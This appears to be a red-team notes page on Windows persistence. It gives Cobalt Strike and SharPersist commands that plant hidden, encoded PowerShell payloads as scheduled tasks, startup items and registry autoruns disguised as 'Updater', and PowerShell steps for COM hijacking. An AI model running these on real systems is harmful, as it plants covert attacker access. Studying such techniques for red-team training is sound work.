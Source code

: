 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Persistence
---
```


<span style="font-size: 35px; color:red"><b>Host Persistence</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Task Scheduler</b></span>
Like cronojobs in Linux.
From Powershell, encode the payload in base64 to avoid dealing with quotations.
On Windows:
```powershell
$str = '<example_powershell_command_i.e._download_cradle>'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
On Linux:
```powershell
set str '<example_powershell_command_i.e._download_cradle>'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
```
Then from CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -n "Updater" -m add -o hourly
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Startup Folder</b></span>
Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. 
From CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -f "UserEnvSetup" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Registry Autorun</b></span>
<span style="color:red">HKCU and HKLM</span>
AutoRun values in HKCU and HKLM allow applications to start on boot. 
From Cobalt Strike:
```powershell
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>COM Hijacks</b></span>
Finding instances of applications loading objects that for some reason don't exist anymore.
Using [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from Sysinternals, look for <span style="color:red">RegOpenKey</span> operations where the Result is <span style="color:red">NAME NOT FOUND</span> and the Path ends with <span style="color:red">InprocServer32</span>.
Look for someone that's loaded semi-frequently (i.e. something that loads when a common application is started - Excel, Word, Outlook...).
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should list the entry
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should return "Cannot find path..."
```
To exploit this, set HKCU path to the .dll exploit:
```powershell
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "<path_to_dll_exploit>"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
To clean-up a COM hijack, simply remove the registry entries from HKCU and delete the DLL.
&nbsp;

<span style="color:red">Task Scheduler</span>
Find tasks that use custom triggers to call COM objects:
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
Then search the task name in the Task Scheduler and check the Status and the Triggers > Details of the tasks listed with the script above.
```powershell
Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
```
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize  <-- this should list the entry
Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"  <-- this should return "Cannot find path..."
```
Add a duplicate entry into HKCU pointing to our DLL (as above), and this will be loaded once every time a user logs in.
